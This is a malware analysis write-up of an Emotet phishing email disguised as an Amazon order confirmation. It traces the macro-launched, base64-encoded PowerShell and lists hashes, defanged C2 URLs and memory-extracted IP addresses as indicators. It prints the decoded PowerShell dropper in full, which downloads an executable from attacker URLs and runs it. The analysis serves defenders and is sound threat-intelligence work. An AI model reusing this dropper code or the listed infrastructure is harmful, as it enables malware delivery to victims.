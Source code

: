 I've taken a look at a couple of Emotet emails today and noticed they have tried to hide their list of C2's that are embedded within the document.

This post outlines how to get the C2's and also highlights a couple of cool tools I use when capturing command line output from malware.

http://www.kahusecurity.com/posts/cmd_watcher_updated.html - This is great tool for displaying any commands that are being run by a piece of malware and having that information recorded.

https://github.com/felixweyne/ProcessSpawnControl - This is a really useful tool in that it will suspend any newly created processes. The user then has the option to terminate the process or allow it to run.

**Email Subject:**

Your Amazon Order 184-1748378-0895603 

**Sender:**

vaalparkspar@telkomsa.net

**Attachment:**

Order 184-1748378-0895603.doc - MD5:17bc30d373d4fb1020fd5daae6e70e05

**Analysis:**

Microsoft Word opened and Macro’s enabled. This launches PowerShell which contains a bas364 encoded script.

Example of CMD Watcher capturing this information (Note I have unticked the “Kill Process” Boxes):

![CMD Watcher](/images/Emotet/cmd.png)

Same data captured in ProcessSpawnControl:

![Process Spawn Control](/images/Emotet/psc.png)

When base64 decoded the following output is displayed:

``$.j.4.C.n.6.J.z.=.(.'.D.'.+.'.A.o.F.K.'.+.'.B.w.V.'.).;.$.n.B.O.K.7.Y.Y.=.n.e.w.-.o.b.j.e.c.t. .N.e.t...W.e.b.C.l.i.e.n.t.;.$.O.h.H.l.C.7.j.t.=.(.'.h.t.t.p.:.'.+.'././.'.+.'.m.e.m.t.r.e.'.+.'.a.t.'.+.'...c.o.m./.T.O.'.+.'.n.9.'.+.'.K.5.'.+.'.1.Q.K.1.p.J.2.q.I.'.+.'._.S.K.a.e.b.F.A.z.'.+.'.@.h.'.+.'.t.t.p.:.'.+.'././.m.e.d.o.'.+.'.n.g.h.o...v.'.+.'.n./.S.V.m.5.y.C.0.s.'.+.'.w._.C.x.@.h.t.t.p.:./.'.+.'./.o.'.+.'.t.o.j.a.c.k...'.+.'.c.'.+.'.o...'.+.'.i.d.'.+.'./.w.p.-.c.o.'.+.'.n.t.e.n.t./.u.'.+.'.p.l.'.+.'.o.a.d.s./.x.v.'.+.'.V.Q.c.2.R.z.d.D.h.'.+.'.T.W.s.w.V.'.+.'.a.'.+.'.@.h.t.t.'.+.'.p.:././.p.'.+.'.t.m.m.f...c.o...i.'.+.'.d./.u.N.V.M.P.E.L.T.Q._.l.'.+.'.d.'.+.'.Q.@.h.t.'.+.'.t.p.:././.p.o.t.l.'.+.'.a.c.k.'.+.'.a.r.i.'.+.'.e.t.'.+.'...s.k./.b.X.f.k.'.+.'.J.'.+.'.2.S.e.K.d.'.+.'.7.'.+.'.g.'.)...S.p.l.i.t.(.'.@.'.).;.$.M.q.D.W.C.T.j.=.(.'.u.w.z.w.'.+.'.2.z.'.).;.$.z.G.8.U.Z.o.8. .=. .(.'.3.1.'.+.'.9.'.).;.$.V.M.Q.N.r.R.K.=.(.'.v.6.7.f.E.j.'.+.'.k.'.+.'.R.'.).;.$.C.H.Z.C.1.E.P.=.$.e.n.v.:.u.s.e.r.p.r.o.f.i.l.e.+.'.\.'.+.$.z.G.8.U.Z.o.8.+.(.'...e.'.+.'.x.e.'.).;.f.o.r.e.a.c.h.(.$.K.b.u.X.J.0. .i.n. .$.O.h.H.l.C.7.j.t.).{.t.r.y.{.$.n.B.O.K.7.Y.Y...D.o.w.n.l.o.a.d.F.i.l.e.(.$.K.b.u.X.J.0.,. .$.C.H.Z.C.1.E.P.).;.$.b.0.U.Y.j.m.P.=.(.'.L.w.R.2.'.+.'.9.'.+.'.R.'.).;.I.f. .(.(.G.e.t.-.I.t.e.m. .$.C.H.Z.C.1.E.P.)...l.e.n.g.t.h. .-.g.e. .4.0.0.0.0.). .{.I.n.v.o.k.e.-.I.t.e.m. .$.C.H.Z.C.1.E.P.;.$.G.A.0.v.L.D.U.m.=.(.'.U.r.Q.M.'.+.'.k.J.'.).;.b.r.e.a.k.;.}.}.c.a.t.c.h.{.}.}.$.c.F.w.t.l.c.R.=.(.'.J.m.E.9.N.'.+.'.J.m.d.'.).;.``

The PowerShell commands are still obfuscated using ‘.’ (null bytes) to separate every character. 

Output with null bytes removed:

``$j4Cn6Jz=('D'+'AoFK'+'BwV');$nBOK7YY=new-object Net.WebClient;$OhHlC7jt=('http:'+'//'+'memtre'+'at'+'.com/TO'+'n9'+'K5'+'1QK1pJ2qI'+'_SKaebFAz'+'@h'+'ttp:'+'//medo'+'ngho.v'+'n/SVm5yC0s'+'w_Cx@http:/'+'/o'+'tojack.'+'c'+'o.'+'id'+'/wp-co'+'ntent/u'+'pl'+'oads/xv'+'VQc2RzdDh'+'TWswV'+'a'+'@htt'+'p://p'+'tmmf.co.i'+'d/uNVMPELTQ_l'+'d'+'Q@ht'+'tp://potl'+'ack'+'ari'+'et'+'.sk/bXfk'+'J'+'2SeKd'+'7'+'g').Split('@');$MqDWCTj=('uwzw'+'2z');$zG8UZo8 = ('31'+'9');$VMQNrRK=('v67fEj'+'k'+'R');$CHZC1EP=$env:userprofile+'\'+$zG8UZo8+('.e'+'xe');foreach($KbuXJ0 in $OhHlC7jt){try{$nBOK7YY.DownloadFile($KbuXJ0, $CHZC1EP);$b0UYjmP=('LwR2'+'9'+'R');If ((Get-Item $CHZC1EP).length -ge 40000) {Invoke-Item $CHZC1EP;$GA0vLDUm=('UrQM'+'kJ');break;}}catch{}}$cFwtlcR=('JmE9N'+'Jmd');``

The URL’s within the script which are used to download the malware are also broken down and pieced together using ‘+’ i.e. http:'+'//'+'memtre'+'at'+'.com/TO'+'n9'+'K5'+'1QK1pJ2qI'+'_SKaebFAz.
Removing this obfuscation technique provides the C2’s that the PowerShell script uses to download the malicious payload:

``hxxp://memtreat[.]com/TOn9K51QK1pJ2qI_SKaebFAz/``

``hxxp://medongho[.]vn/SVm5yC0s``

``hxxp://otojack.co[.]id/wp-content/uploads/xvVQc2RzdDhTWswVa``

``hxxp://ptmmf.co[.]id/uNVMPELTQ_ldQ``

``hxxp://potlackariet[.]sk/bXfkJ2SeKd7g``

A this point the payload is downloaded to the following location and given a 3 digit name:

``PID: 2080, Command line: "C:\Users\Administrator\319.exe"``

Using ProcessSpawnControl I am able to capture 319.exe before it deletes itself.

![319.exe](/images/Emotet/cmd_spawn.png)

Once I have taken a copy of the binary I can allow the malware to continue running. This is such a useful feature where a piece of malware may drop multiple files and then delete some of them when it tries to clean itself up:

![319.exe suspended](/images/Emotet/319_allow.png)

319.exe launched:

``PID: 2992, Command line: "C:\Users\Administrator\319.exe"``

The file is then copied to its persistence location and deleted from “C:\Users\Administrator\”.

**Process Activity**

![Process Activity](/images/Emotet/process1.png)

![Process Activity](/images/Emotet/process2.png)

**Payload:**

slidemenus.exe - MD5: abac88c5e2220d78d2c835e138a6d78a

The same Word document opened on a 64bit machine downloaded a different payload:

issturned.exe - MD5: 477e59649a0a32de005b6947df42205a

**C2s:**

hxxp://memtreat[.]com/TOn9K51QK1pJ2qI_SKaebFAz/

hxxp://medongho[.]vn/SVm5yC0s

hxxp://otojack.co[.]id/wp-content/uploads/xvVQc2RzdDhTWswVa

hxxp://ptmmf.co[.]id/uNVMPELTQ_ldQ

hxxp://potlackariet[.]sk/bXfkJ2SeKd7g

**IP Addresses pulled from memory:**

0x398d80 (22): hxxp://98.157.215[.]153/

0x3b51ca (52): :tp://153.121.36[.]202:7080/

0x3bb82a (23): tp://71.240.202[.]13:443/

0x3bb86a (23): tp://70.164.196[.]211:20/

0x3d19b0 (14): 98.157.215.153

0x3d1c20 (13): 181.119.30.27

0x3d1c38 (14): 153.121.36.202

0x3d1c50 (14): 69.136.227.134

0x3d1c98 (14): 216.49.114.172

0x3d7a30 (44): %ttp://175.101.79.120/

0x3d7a6a (40): ttp://190.215.53.85/
